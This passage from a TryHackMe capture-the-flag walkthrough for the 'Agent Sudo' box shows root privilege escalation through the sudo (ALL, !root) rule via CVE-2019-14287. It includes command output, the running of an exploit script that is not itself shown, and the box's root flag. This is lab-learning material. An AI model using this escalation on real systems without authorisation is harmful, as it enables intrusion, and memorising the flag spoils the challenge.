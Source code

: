 ```
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$
```
Do a google and get the CVE-2019-14287.

![priv](img/priv.png)

![priv2](img/priv2.png)
Pass the exploit to the machine, using scp or otherwise.

```
james@agent-sudo:~$ python3 exploit.py 
Enter current username :james
Lets hope it works
root@agent-sudo:~# cat /root/root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
```